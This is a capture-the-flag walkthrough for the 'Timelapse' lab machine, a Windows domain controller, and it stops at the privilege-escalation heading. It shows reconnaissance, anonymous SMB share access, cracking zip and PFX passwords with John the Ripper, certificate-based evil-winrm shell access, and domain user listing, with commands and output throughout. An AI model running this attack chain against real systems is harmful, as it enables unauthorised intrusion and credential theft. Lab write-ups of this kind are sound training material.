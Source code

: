 # Timelapse

## Information Gathering

## Enumeration

Start with your nmap scan:
```s
$ sudo nmap -p- -A -T4 -oN nmap/all.nmap -Pn 10.10.11.152       
[sudo] password for cerb: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-27 20:20 EDT
Stats: 0:06:43 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 68.75% done; ETC: 20:27 (0:00:13 remaining)
Stats: 0:06:48 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 68.75% done; ETC: 20:27 (0:00:15 remaining)
Nmap scan report for 10.10.11.152
Host is up (0.092s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-28 08:32:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2023-05-28T08:34:12+00:00; +8h05m46s from scanner time.
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
54971/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8h05m45s, deviation: 0s, median: 8h05m45s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-05-28T08:33:35
|_  start_date: N/A

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   13.08 ms  10.10.14.1
2   129.16 ms 10.10.11.152
```

### 53/tcp

From the nmap scan, we may have a domain name `timelapse.htb`. Lets look up all records for this domain:

```s
$ dig any @10.10.11.152 timelapse.htb 

; <<>> DiG 9.18.12-1-Debian <<>> any @10.10.11.152 timelapse.htb
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 24377
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 7, AUTHORITY: 0, ADDITIONAL: 4

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;timelapse.htb.                 IN      ANY

;; ANSWER SECTION:
timelapse.htb.          600     IN      A       10.10.11.152
timelapse.htb.          3600    IN      NS      dc01.timelapse.htb.
timelapse.htb.          3600    IN      SOA     dc01.timelapse.htb. hostmaster.timelapse.htb. 152 900 600 86400 3600
timelapse.htb.          600     IN      AAAA    dead:beef::9914:5e82:1222:7064
timelapse.htb.          600     IN      AAAA    dead:beef::1e6
timelapse.htb.          600     IN      AAAA    dead:beef::24e
timelapse.htb.          600     IN      AAAA    dead:beef::b5c6:f9aa:a6a6:3e26

;; ADDITIONAL SECTION:
dc01.timelapse.htb.     3600    IN      A       10.10.11.152
dc01.timelapse.htb.     3600    IN      AAAA    dead:beef::1e6
dc01.timelapse.htb.     3600    IN      AAAA    dead:beef::9914:5e82:1222:7064

;; Query time: 12 msec
;; SERVER: 10.10.11.152#53(10.10.11.152) (TCP)
;; WHEN: Sat May 27 20:22:23 EDT 2023
;; MSG SIZE  rcvd: 308
```

Looks like we have a NS `dc01.timelapse.htb` as well as two SOA's `dc01.timelapse.htb` and `hostmaster.timelapse.htb`.


### 139/tcp, 445/tcp

Enumerating for NULL shares:

```s
$ smbmap -u '' -p '' -H 10.10.11.152               
[+] IP: 10.10.11.152:445        Name: 10.10.11.152

$ smbclient -L \\\\10.10.11.152 -N  

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

The only share we have anonymous access to is `Shares`:

```s
$ smbmap -u 'anonymous' -p '' -H 10.10.11.152
[+] Guest session       IP: 10.10.11.152:445    Name: 10.10.11.152                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Shares                                                  READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share
```

Recursivly download this share:

```s
mask ""
recurse ON
prompt OFF
mget *
...
$ find . -type f
./HelpDesk/LAPS.x64.msi
./HelpDesk/LAPS_OperationsGuide.docx
./HelpDesk/LAPS_TechnicalSpecification.docx
./HelpDesk/LAPS_Datasheet.docx
./Dev/winrm_backup.zip
```

There's a few interesting things here. Before digging into the `docx`, lets look at `winrm_backup.zip`. Attempting to decompress:

```s
$ unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password:
```

I get prompted for a password. Let's attempt to crack this. We'll need to extract the hash and run `JtR`.

```s
$ zip2john winrm_backup.zip > winrm_backup_zip.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt winrm_backup_zip.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2023-05-27 20:36) 2.325g/s 8077Kp/s 8077Kc/s 8077KC/s swimfan12..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We can use the password `supremelegacy` to decompress `winrm_backup.zip`. After decompression, this spits out `legacy_dev_auth.pfx` which is a [Personal Information Exchange (.pfx)](https://learn.microsoft.com/en-us/windows-hardware/drivers/install/personal-information-exchange---pfx--files) certificate. After a bit of research, you can actually use the `pfx` file to authenticate and get a shell. We can accomplish this using `evil-winrm`. We'll first need to get the public and private key from the `pfx` file. First, crack the passphrase of the `pfx` file using `JtR`

```s
$ pfx2john legacyy_dev_auth.pfx > legacy_dev_auth_pfx.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt legacy_dev_auth_pfx.hash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:00:08 DONE (2023-05-27 20:50) 0.1209g/s 390779p/s 390779c/s 390779C/s thyriana..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Nice, we get the passpharse `thuglegacy`. Now, generate the public and private key pair:

```s
$ openssl pkcs12 -in yourfile.pfx -nocerts -out priv.pem -nodes
$ openssl pkcs12 -in yourfile.pfx -clcerts -nokeys -out publickey.pem
```

Lastly, we can use `evil-winrm` with our new keys to gain foothold.

```s
$ evil-winrm -i 10.10.11.152 -c pub.pem -k priv.pem -S -r timelapse.htb
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```

## Foothold

With the .pfx file, we can generate the corresponding public and private keys

```s
$ openssl pkcs12 -in yourfile.pfx -nocerts -out priv.pem -nodes
$ openssl pkcs12 -in yourfile.pfx -clcerts -nokeys -out publickey.pem
```

With the pub and priv keys, we can authenticate to the machine:

```s
$ evil-winrm -i 10.10.11.152 -c pub.pem -k priv.pem -S -r timelapse.htb
```

## Esclation of Privilege

## Domain

Lets get all the users in the domain

```powershell
PS C:\Users\legacyy\Desktop> net user /domain
-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
The command completed with one or more errors.
```

Checking for domain admins

```powershell
PS C:\Users\legacyy\Desktop> net group "Domain Admins" /domain
-------------------------------------------------------------------------------
Administrator            payl0ad                  thecybergeek
TRX
```